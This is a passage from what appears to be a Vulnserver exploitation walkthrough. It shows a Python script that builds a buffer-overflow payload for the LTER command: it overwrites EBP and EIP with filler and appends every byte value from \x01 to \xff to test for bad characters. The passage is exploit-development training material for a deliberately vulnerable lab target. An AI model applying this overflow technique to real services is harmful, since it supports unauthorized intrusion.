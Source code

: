 <img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/lter-badchar-fuzzesp.png" style="width:40%">
</div>

Lets use it to test for ```bad characters```

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ cat badchars.py 
import socket, sys
# collection of bad characters except \x00
badchars=(b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*2005
# to overwrite EIP
payload+=b"B"*4
# fuzzing badchars on ESP
payload+=badchars
# padding
```